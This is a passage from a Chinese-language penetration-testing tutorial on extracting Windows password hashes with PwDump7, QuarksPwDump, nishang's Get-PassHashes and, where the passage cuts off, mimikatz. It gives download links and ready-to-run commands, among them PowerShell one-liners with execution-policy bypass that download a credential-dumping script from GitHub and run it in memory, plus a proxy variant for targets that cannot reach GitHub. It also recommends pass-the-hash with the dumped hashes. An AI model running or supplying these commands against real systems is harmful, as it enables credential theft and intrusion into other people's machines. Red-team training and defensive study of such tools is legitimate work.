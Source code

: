 PwDump7 下载地址：[https://www.tarasco.org/security/pwdump_7/](https://www.tarasco.org/security/pwdump_7/)

PwDump7 只能获取到用户的 hash，不能看到明文密码，不过可以使用这个 hash 值去 cmd5 等平台查找明文或者直接用哈希传递。

PwDump7 同样使用管理员权限直接运行即可。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210804171846.png)

## 3、QuarkPwDump

QuarkPwDump 下载地址：[https://raw.githubusercontent.com/tuthimi/quarkspwdump/master/Release/QuarksPwDump.exe](https://raw.githubusercontent.com/tuthimi/quarkspwdump/master/Release/QuarksPwDump.exe)

运行以下命令导出用户 Hash

```
QuarkPwDump.exe --dump-hash-local
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210804172758.png)

## 4、Get-PassHashes

Get-PassHashes 是一个 PS 脚本，Get-PassHashes 下载地址：[https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1)

导入 ps1 脚本，以管理员权限执行 Get-PassHashes 即可。

```
Import-Module .\Get-PassHashes.ps1
Get-PassHashes
```

或者绕过无法执行 PS 脚本的限制，直接无文件执行（推荐），同样需要管理员权限。

```
# 不使用代理
powershell.exe -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes"

# 使用代理，如果目标无法访问 github 可以使用下面的命令利用代理访问
powershell.exe -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210804174013.png)

## 5、mimikatz

说到密码抓取，又怎能少得了 mimikatz 呢。

mimikatz 是法国技术大神 Benjamin Delpy 使用 C 语言写的一款轻量级系统调试工具，该工具可以从内存中提取明文密码、散列值、PIN 和 K8S 票据，还可以执行哈希传递、票据传递、构建黄金票据等。

